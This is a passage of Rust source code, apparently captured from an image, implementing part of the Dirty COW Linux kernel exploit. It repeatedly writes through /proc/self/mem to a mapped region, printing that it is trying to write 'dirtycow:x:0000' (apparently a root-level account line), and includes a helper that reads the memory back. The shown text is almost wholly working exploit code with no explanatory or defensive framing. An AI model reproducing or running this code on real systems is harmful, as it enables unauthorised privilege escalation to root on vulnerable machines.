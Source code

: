 ```Rust

    // Open the file for writing
    let file_for_write = OpenOptions::new()
        .read(true)
        .write(true)
        .open("/proc/self/mem")?;

    // Get the file descriptor
    let file_fd_for_write = file_for_write.as_raw_fd();

    // Set the file pointer to the corresponding position
    let offset = lseek(file_fd_for_write, mapped_memory as off_t, SEEK_SET);

    // Check if lseek failed
    if offset == -1 {
        eprintln!("lseek failed: {}", std::io::Error::last_os_error());
        std::process::exit(1);
    }
    // Infinite loop for continuous writing
    loop {
        // Write to the memory
        let result = libc::write(
            file_fd_for_write,
            NEW_CONTENT.as_ptr() as *const c_void,
            NEW_CONTENT.len() as usize,
        );
        println!("Trying to write `dirtycow:x:0000`...");

        // Check if write failed
        if result == -1 {
            let error_code = *__errno_location();
            let error_message = CStr::from_ptr(strerror(error_code)).to_string_lossy();
            return Err(io::Error::new(
                io::ErrorKind::Other,
                format!("Write error: {} - {}", error_code, error_message),
            ));
        }
    }
}

// Function to read memory content
fn read_memory_content(mapped_memory: *mut u8, size: usize) -> io::Result<String> {
    // Open the file for reading
    let file_for_read = File::open("/proc/self/mem")?;

    // Get the file descriptor
    let file_fd_for_read = file_for_read.as_raw_fd();
    let mut buffer = vec![0; size];

    // Unsafe block to perform low-level operations
    unsafe {
        // Set the file pointer to the mapped memory
        lseek(file_fd_for_read, mapped_memory as off_t, SEEK_SET);
        // Read from the memory into the buffer
        let result = read(file_fd_for_read, buffer.as_mut_ptr() as *mut c_void, size);

        // Check if read failed
        if result == -1 {
            return Err(io::Error::last_os_error());
        }
    }

    Ok(String::from_utf8_lossy(&buffer).into_owned())
```